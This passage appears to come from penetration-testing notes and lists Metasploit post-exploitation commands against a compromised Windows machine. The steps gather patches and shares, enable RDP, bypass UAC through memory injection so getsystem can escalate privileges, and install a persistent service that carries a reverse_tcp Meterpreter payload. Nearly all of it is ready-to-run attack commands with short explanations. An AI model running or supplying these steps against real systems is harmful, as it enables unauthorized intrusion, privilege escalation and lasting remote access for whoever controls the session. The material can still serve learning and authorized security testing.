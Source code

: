 > This will tell us whether the machine is a stand alone machine or a machine that is part of a domain.

```msfconsole
use post/windows/gather/enum_patches
show options
set SESSION <session-id>
run
```

> This will give us the patches that being installed in the machine. You can also do this by typing the `shell > systeminfo` command as it is a native windows command.

```msfconsole
use post/windows/gather/enum_shares
show options
set SESSION <session-id>
run
```

> This will lists all the shares within the machine.

```msfconsole
use post/windows/manage/enable_rdp
show options
set SESSION <session-id>
run
```

> This will tell us whether `RDP` is enabled on the machine or not. If it isn't enabled than it will enable it by it self.

#### Bypassing UAC Through Memory Injection:

***EVERYTHING DEMOSTARTED BELOW IS DONE AFTER THE FIRST FOOTHOLD HAS BE GAINED***

```
Ctrl + Z
y
use exploit/windows/local/bypassuac_injection
set SESSION <session-id>
set LPORT 4433
set TARGET\ x64
run
```

> This will bypass UAC using the injection method.

***NOW THIS WILL NOT ELEVATE OUR PRIVILAGES BUT WILL GIVE A NEW METERPRETER SESSION THAT WILL HAVE THE UAC FLAG TURNED OFF AND AFTER THAT YOU CAN USE THE*** **`getsystem`** ***COMMAND TO ELIVATE YOUR PRIVILEGES***

#### Establishing Persistence on Windows:

```msfconsole
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
show options
set SESSION <session-id>
run
```
